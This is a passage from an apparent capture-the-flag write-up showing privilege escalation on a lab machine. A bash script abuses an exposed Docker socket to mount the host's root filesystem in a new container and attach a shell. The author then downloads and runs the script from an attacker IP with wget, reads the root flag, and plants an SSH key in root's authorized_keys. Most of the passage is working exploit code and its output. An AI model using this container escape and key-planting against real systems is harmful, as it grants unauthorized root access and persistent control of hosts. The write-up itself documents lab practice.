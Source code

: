 Because this process takes some time and the container gets killed eventually, I created a bash-script to automate the process.

```bash
#!/bin/bash

# Define container with json-file
echo -e '{"Image":"sandbox","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/mnt/host"}]}' > container.json

# Create container and get ID
ID=$(curl -s -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create | sed -e 's/{"Id":"//' | sed -e 's/",.*//')
# Start container
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$ID/start
# Upgrade container and drop into shell
(echo -e "POST /containers/$ID/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp \n"; cat) | ./socat - UNIX-CONNECT:/var/run/docker.sock
```

Now we simply have to download and run the exploit.

```bash
root@2d24bf61767c:~# wget -q 10.10.14.15/exploit.sh; bash exploit.sh
HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp

ls /mnt/host/root/
root.txt
snap
cat /mnt/host/root/root.txt
!20898***************************
```

We can now access the file-system of the host and read root.txt.

#### Root shell

In order to get root-shell on the machine, we have to write our ssh-key into root's authorized_keys.

First we generate our ssh-key.

```bash
root@darkness:~# ssh-keygen -f feline.key -N "" -q
```

Then we execute our exploit again and write the generated key into `/mnt/host/root/.ssh/authorized_keys`.

```bash
root@2d24bf61767c:~# bash exploit.sh
HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp

echo 'ssh-rsa AAAA[...]OUlq3ueek=' > /mnt/host/root/.ssh/authorized_keys
```
